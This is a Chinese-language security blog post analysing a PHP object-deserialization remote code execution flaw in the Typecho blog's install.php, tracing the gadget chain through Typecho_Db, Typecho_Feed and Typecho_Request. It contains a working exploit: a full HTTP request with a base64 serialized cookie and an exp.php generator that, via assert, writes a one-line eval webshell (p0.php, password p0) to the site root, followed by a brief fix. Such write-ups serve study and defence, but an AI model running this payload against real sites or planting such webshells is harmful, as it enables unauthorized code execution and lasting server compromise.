





## 0x00 前言

听说了这个洞，吓得赶紧去看了一下自己的博客，发现自己当初安装完就把这个文件和install目录删了，看来当初自己安全意识还是可以滴 233

## 0x01 Payload

```http
GET /typecho/install.php?finish=1 HTTP/1.1
Host: 192.168.211.169
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: __typecho_config=YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6NDp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo4OiJBVE9NIDEuMCI7czoyMjoiAFR5cGVjaG9fRmVlZABfY2hhcnNldCI7czo1OiJVVEYtOCI7czoxOToiAFR5cGVjaG9fRmVlZABfbGFuZyI7czoyOiJ6aCI7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6MTp7czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NTc6ImZpbGVfcHV0X2NvbnRlbnRzKCdwMC5waHAnLCAnPD9waHAgQGV2YWwoJF9QT1NUW3AwXSk7Pz4nKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fX19czo2OiJwcmVmaXgiO3M6NzoidHlwZWNobyI7fQ==
Referer:http://192.168.211.169/typecho/install.php
Connection: close
Upgrade-Insecure-Requests: 1
```

便会在网站根目录下生产一句话`p0.php`，密码`p0`




## 0x02 反序列化可控点

install.php 288-235行

```php
<?php else : ?>
    <?php
    $config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
    Typecho_Cookie::delete('__typecho_config');
    $db = new Typecho_Db($config['adapter'], $config['prefix']);
    $db->addServer($config, Typecho_Db::READ | Typecho_Db::WRITE);
    Typecho_Db::set($db);
?>
```

第230行获取cookie中的`__typecho_config`值base64解码，然后反序列化。想要执行，只需`isset($_GET['finish'])`并且`__typecho_config `存在值。

反序列化后232行把`$config['adapter']`和`$config['prefix']`传入`Typecho_Db`进行实例化。然后调用`Typecho_Db`的`addServer`方法，调用`Typecho_Config`实例化工厂函数对`Typecho_Config`类进行实例化。

## 0x03 反序列化触发点

全局搜索`__destruct()`和`__wakeup()`：



只发现了两处`__destruct()`，跟进去并没发现可利用的地方。

继续看`Typecho_Db`类

构造方法，Db.php 114-135行

```php
public function __construct($adapterName, $prefix = 'typecho_')
{
    /** 获取适配器名称 */
    $this->_adapterName = $adapterName;

    /** 数据库适配器 */
    $adapterName = 'Typecho_Db_Adapter_' . $adapterName;

    if (!call_user_func(array($adapterName, 'isAvailable'))) {
        throw new Typecho_Db_Exception("Adapter {$adapterName} is not available");
    }

    $this->_prefix = $prefix;

    /** 初始化内部变量 */
    $this->_pool = array();
    $this->_connectedPool = array();
    $this->_config = array();

    //实例化适配器对象
    $this->_adapter = new $adapterName();
}
```

发现第120行对传入的`$adapterName`进行了字符串的拼接操作。那么如果`$adapterName`传入的是个实例化对象，就会触发该对象的`__toString()`魔术方法。

全局搜索`__toString()`：



发现三处，跟进，第一个发现并没有可以直接利用的地方。

跟进`Typecho_Query`类的`__toString()`魔术方法，Query.php 488-519行：

```php
public function __toString()
{
    switch ($this->_sqlPreBuild['action']) {
        case Typecho_Db::SELECT:
            return $this->_adapter->parseSelect($this->_sqlPreBuild);
        case Typecho_Db::INSERT:
            return 'INSERT INTO '
            . $this->_sqlPreBuild['table']
            . '(' . implode(' , ', array_keys($this->_sqlPreBuild['rows'])) . ')'
            . ' VALUES '
            . '(' . implode(' , ', array_values($this->_sqlPreBuild['rows'])) . ')'
            . $this->_sqlPreBuild['limit'];
        case Typecho_Db::DELETE:
            return 'DELETE FROM '
            . $this->_sqlPreBuild['table']
            . $this->_sqlPreBuild['where'];
        case Typecho_Db::UPDATE:
            $columns = array();
            if (isset($this->_sqlPreBuild['rows'])) {
                foreach ($this->_sqlPreBuild['rows'] as $key => $val) {
                    $columns[] = "$key = $val";
                }
            }

            return 'UPDATE '
            . $this->_sqlPreBuild['table']
            . ' SET ' . implode(' , ', $columns)
            . $this->_sqlPreBuild['where'];
        default:
            return NULL;
    }
}
```

第492行`$this->_adapter`调用`parseSelect()`方法，如果该实例化对象在对象上下文中调用不可访问的方法时触发，便会触发`__call()`魔术方法。

全局搜索`__call()`：



发现几处，挨个跟进发现`Typecho_Plugin`类的`__call()`魔术方法存在回调函数，Plugin.php 479-494行：

```php
public function __call($component, $args)
{
    $component = $this->_handle . ':' . $component;
    $last = count($args);
    $args[$last] = $last > 0 ? $args[0] : false;

    if (isset(self::$_plugins['handles'][$component])) {
        $args[$last] = NULL;
        $this->_signal = true;
        foreach (self::$_plugins['handles'][$component] as $callback) {
            $args[$last] = call_user_func_array($callback, $args);
        }
    }

    return $args[$last];
}
```

`$component`是调用失败的方法名，`$args`是调用时的参数。均可控，但是根据上文，`$args`必须存在`array('action'=>'SELECT')`，然后加上我们构造的payload，最少是个长度为2的数组，但是483行又给数组加了一个长度，导致`$args`长度至少为3，那么`call_user_func_array()`便无法正常执行。所以此路就不通了。

继续跟进`Typecho_Feed`类的`__toString()`魔术方法，Feed.php 340-360行

```php
} else if (self::ATOM1 == $this->_type) {
            $result .= '<feed xmlns="http://www.w3.org/2005/Atom"
xmlns:thr="http://purl.org/syndication/thread/1.0"
xml:lang="' . $this->_lang . '"
xml:base="' . $this->_baseUrl . '"
>' . self::EOL;

            $content = '';
            $lastUpdate = 0;

            foreach ($this->_items as $item) {
                $content .= '<entry>' . self::EOL;
                $content .= '<title type="html"><![CDATA[' . $item['title'] . ']]></title>' . self::EOL;
                $content .= '<link rel="alternate" type="text/html" href="' . $item['link'] . '" />' . self::EOL;
                $content .= '<id>' . $item['link'] . '</id>' . self::EOL;
                $content .= '<updated>' . $this->dateFormat($item['date']) . '</updated>' . self::EOL;
                $content .= '<published>' . $this->dateFormat($item['date']) . '</published>' . self::EOL;
                $content .= '<author>
    <name>' . $item['author']->screenName . '</name>
    <uri>' . $item['author']->url . '</uri>
</author>' . self::EOL;
```

第358行`$item['author']`调用`screenName`属性，如果该实例化对象用于从不可访问的属性读取数据，便会触发`__get()`魔术方法。

全局搜索`__get()`：



发现了几处，最终确定`Typecho_Request`类存在可利用的地方

`__get()`魔术方法调用`get()`方法，Request.php 293-309行：

```php
public function get($key, $default = NULL)
{
    switch (true) {
        case isset($this->_params[$key]):
            $value = $this->_params[$key];
            break;
        case isset(self::$_httpParams[$key]):
            $value = self::$_httpParams[$key];
            break;
        default:
            $value = $default;
            break;
    }

    $value = !is_array($value) && strlen($value) > 0 ? $value : $default;
    return $this->_applyFilter($value);
}
```

308行调用`_applyFilter()`方法，传入的`$value`是`$this->_params[$key]`的值，`$key`就是`screenName`。

跟进`_applyFilter()`，Request.php 159-171行：

```php
private function _applyFilter($value)
{
    if ($this->_filter) {
        foreach ($this->_filter as $filter) {
            $value = is_array($value) ? array_map($filter, $value) :
            call_user_func($filter, $value);
        }

        $this->_filter = array();
    }

    return $value;
}
```

第163行`array_map`和164行`call_user_func`均可造成任意代码执行。

## 0x04 构造Payload

Payload：exp.php

```php
<?php

class Typecho_Feed{
    private $_type = 'ATOM 1.0';
    private $_charset = 'UTF-8';
    private $_lang = 'zh';
    private $_items = array();

    public function addItem(array $item){
        $this->_items[] = $item;
    }
}

class Typecho_Request{
    private $_params = array('screenName'=>'file_put_contents(\'p0.php\', \'<?php @eval($_POST[p0]);?>\')');
    private $_filter = array('assert');
}

$payload1 = new Typecho_Feed();
$payload2 = new Typecho_Request();
$payload1->addItem(array('author' => $payload2));
$exp = array('adapter' => $payload1, 'prefix' => 'typecho');
echo base64_encode(serialize($exp));
```

## 0x05 修补方法

**删除install.php及install目录**

**如有错误请指出**

**著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。作者：p0链接：https://p0sec.net/index.php/archives/114/来源：https://p0sec.net/**